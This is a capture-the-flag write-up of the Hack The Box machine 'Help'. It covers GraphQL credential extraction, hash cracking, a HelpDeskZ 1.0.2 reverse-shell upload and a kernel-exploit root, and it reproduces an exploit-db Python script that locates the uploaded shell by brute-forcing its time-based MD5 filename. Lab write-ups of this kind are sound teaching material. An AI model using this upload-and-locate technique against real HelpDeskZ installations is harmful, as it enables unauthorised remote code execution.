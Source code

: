# Help

## Info
  * IP : 10.10.10.121
  * OS : Linux
  * DIfficulty: Easy/Medium

## System Enumeration

### NMAP
![nmap](boxImages/Help/nmap.png "NMAP")

### Port 80
![port 80](boxImages/Help/port80.png "Port 80")

### Port 3000
![port 3000](boxImages/Help/port3k.png "Port 3000")

nmap shows port 3000 hosts the node.js express framework, loading up port 3000 we see that we need to enter a query.  
A quick google search for "query + nodejs + express" gives us a new keyword "graphql".  

So, we check for graphql by simply typing `/graphql` 

### Finding Credentials

To read and interact with GraphQL properly, I used the JSON decoder of the BurpSuite.  
![Burp Suite](boxImages/Help/credsfound.png "Burp Suite")

The password hash found can be easily cracked using online utilities such as crackstation.  
![Cracked Password](boxImages/Help/crackedpw.png "Cracked Password")

### Support Page

HelpDeskZ is being used for the support API of the website, and since we've already found the credentials, we can easily login.  
![Support Page](boxImages/Help/supportPage.png "Support Page")

![Logged In](boxImages/Help/loggedInHelpDeskz.png "Logged In")

#### Exploitation

Looking for a possible exploit, I found `https://www.exploit-db.com/exploits/40300` to be of use.  

```
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

We can upload a reverse shell through the HelpDeskZ portal along with a ticket and use the given python code to find our uploaded shell.  

*Although it can be done without logging in, the login helped me with the timezone matching problem, without which I'd have to edit the exploit.py according to my timezone.*

Since the tickets formed, keep changing with respect to the time, we match our timezone with the timezone of the HelpDeskz portal.  

![TimeServer](boxImages/Help/timezoneServer.png "Time Zone Server Change")

![TimeClient](boxImages/Help/timezoneClient.png "TIme Zone Client Change")

Now, we should upload our shell.  

Using a simple `php-reverse-shell` provided by `pentestmonkey`, I simply changed the required values and uploaded it as a ticket file.  

![uploaded shell](boxImages/Help/uploadingShell.png "Uploading the php shell")

As I submitted my ticket, I received the error `File Not Allowed`, but looking at the source code of HelpDeskz, this error is bogus and the file is still uploaded.  

So, we run the exploit  
![Python Exploit](boxImages/Help/pyexploit.png "PyExploit")  

File found! So we create a listener and open up our shell and voila! We are in
![Listening for Shell](boxImages/Help/listeningForShell.png "Listening for Shell")  

## User Found

![User Found](boxImages/Help/userfound.png "User")

## Privilege Escalation

Enumerating the system, we get the following information  
![PrivEsc 1](boxImages/Help/privesc1.png "Privilege Enumeration")

Searching for a possible exploit on searchsploit  
![SearchSploit](boxImages/Help/searchsploit.png "Searchsploit")

Looking up the kernel exploit and running it on the machine, we get root!
![Root Gained](boxImages/Help/rootgained.png "Rooted!")

Thank you for reading!